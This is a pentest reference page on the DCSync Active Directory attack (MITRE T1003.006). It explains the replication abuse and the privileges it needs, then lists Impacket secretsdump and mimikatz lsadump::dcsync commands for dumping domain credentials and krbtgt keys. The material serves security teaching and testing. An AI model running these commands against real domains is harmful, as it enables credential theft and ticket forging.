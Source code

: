 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](../../abusing-kerberos/forged-tickets.md) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](ntds.dit.md) but the practical aspect differ. **A DCSync is not a simple copy & parse of the NTDS.dit file**, it's a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI \(Directory Replication Service API\) to replicate data \(including credentials\) from a domain controller.

**This attack requires domain admin privileges** to succeed \(more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes`  and `DS-Replication-Get-Changes-All`\). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](../../abusing-aces/granting-genericall.md).

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../stuffing.md), [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md).

```bash
# using a plaintext password
secretsdump -outputfile resultsfile 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile resultsfile -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile resultsfile 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\) can be used to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](../../abusing-kerberos/forged-tickets.md#golden-ticket). For this attack to work, the following mimikatz command should run in an elevated context \(i.e. through [plaintext password stuffing](../stuffing.md#runas), [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md)\).

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync" %}

